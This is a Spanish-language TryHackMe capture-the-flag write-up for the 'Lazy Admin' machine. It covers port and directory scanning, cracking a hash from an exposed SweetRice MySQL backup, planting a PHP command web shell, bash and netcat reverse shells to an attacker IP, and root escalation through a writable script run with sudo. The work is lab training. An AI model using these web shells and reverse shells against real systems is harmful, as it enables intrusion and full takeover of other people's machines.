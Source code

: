 ```yaml
---
layout: single
title: Lazy Admin - TryHackMe
excerpt: " Easy linux machine to practice your skills_. Have some fun! There might be multiple ways to get user access. "
date: 2022-08-28
classes: wide
header:
  teaser: /blog/assets/images/thm-writeup-lazyadmin/lazyadmin.jpeg
  teaser_home_page: true
  icon: /blog/assets/images/tryhackme.webp
categories:
  - tryhackme
tags:  
  - sweetrice
  - john
  - fuzzing
  - mysql
  - php
---
```


Easy linux machine to practice your skills_. Have some fun! There might be multiple ways to get user access.

# Summary
- IP: 10.10.43.118
- Ports: 22,80
- OS: Linux (Ubuntu Bionic)
- Services & Applications:
	-  22 -> OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
	-  80 -> Apache httpd 2.4.18

# Recon
- Reconocimiento básico de puertos:

```bash
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.116.216 -oG allPorts
``` 

- Reconocimiento profundo de puertos encontrados:

``` bash
$sudo nmap -p22,80,139,445,8009,8080 -sCV 10.10.116.216 -oN targeted
```

- Analizamos la página web, la cual solo muestra la página por defecto de apache, por lo que no nos sirve de nada.
- Analizamos directorios con gobuster:

```bash
$gobuster dir -u 10.10.43.118 -w /home/dante/SecLists/Discovery/Web-Content/common.txt
```

- Encontramos un directorio "content" el cual nos muestra una página web de un CMS denominado "SweetRice", nada más; hacemos fuzzing con gobuster para encontrar posibles subrutas en content/:

```bash
$gobuster fuzz -u http://10.10.43.118/content/FUZZ -w /home/dante/SecLists/Discovery/Web-Content/common.txt -b 404
```

- Encontramos la ruta "/content/as" la cual tiene la página de login del CMS "SweetRice"; bucamos vulnerabilidades para sweetrice:

```bash
searchsploit sweetrice
```

- Encontramos varias, probamos con la de backups discovery en busqueda de posibles contraseñas, en el archivo del exploit encontramos lo siguiente:

```
You can access to all mysql backup and download them from this directory.
http://localhost/inc/mysql_backup
```

- Nos damos cuenta en el fuzzing anteriormente hecho encontramos el directorio "content/inc" entonces accedemos y encontramos la carpeta de backups mysql, descargamos el archivo, lo analizamos y nos encontramos un posible usuario con una contraseña hasheada, la intentamos romper con john:

```bash
$john -w:/home/dante/SecLists/Passwords/Leaked-Databases/rockyou.txt pass.hash --format=RAW-MD5
```

En caso de querer volver a ejecutar john, se debe remover el siguiente archivo:

```bash
$rm /home/dante/.john/john.pot
```

- Encontramos una contraseña, la probamos en la página de login como el usuario "manager" y accedemos a la página de sweetrice.
- Nos damos cuenta que se trata de la versión 1.5.1; en searchsploit vemos que hay un ataque Cross-Site Request Forgery / PHP Code Execution, descargamos el html y lo analizamos:

```
In SweetRice CMS Panel In Adding Ads Section SweetRice Allow To Admin Add
PHP Codes In Ads File
A CSRF Vulnerabilty In Adding Ads Section Allow To Attacker To Execute
PHP Codes On Server .
Code You Can
Customize Exploit For Your Self .
```

- Nos dirigimos a la pestaña "ads" y podremos agregar cualquier código php que será luego interpretado, aprovechamos esta vulnerabilidad para crear un parámetro "cmd" el cual nos permita ejecutar comandos ya sea desde el link o desde el propio recurso:

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

- Ahora nos dirigimos al recurso creado con el nombre de "shell" y nos entablamos una reverse shell:

http://10.10.43.118/content/inc/ads/shell.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.18.101.123/443 0>%261"

- Accedemos, hacemos tratamiento de la tty y encontramos la primera flag.
- Hacemos sudo -l y nos arroja lo siguiente:

```bash
User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

- Tenemos permiso de ejecutar como root el script escrito en perl "backup.pl", lo analizamos para ver en que consiste y nos damos cuenta que dentro del código ejecuta otro archivo:

```bash
#!/usr/bin/perl
system("sh", "/etc/copy.sh");
```

- Analizamos este otro archivo y vemos que tenemos permisos de escritura, es decir podemos modificarlo y esto se ejecutará como root, por lo que podemos escirbir el código para entablar una reverse shell y esta nos permitirá acceder como root, en este caso el archivo copy.sh ya tiene puesta una reverse shell, le cambiamos la direccion ip por la nuestra y nos ponemos en escucha:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.101.123 1234 >/tmp/f
```

- Y por último ejecutamos como root (sudo) el binario permitido:

```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```

- Encontramos la flag de root.
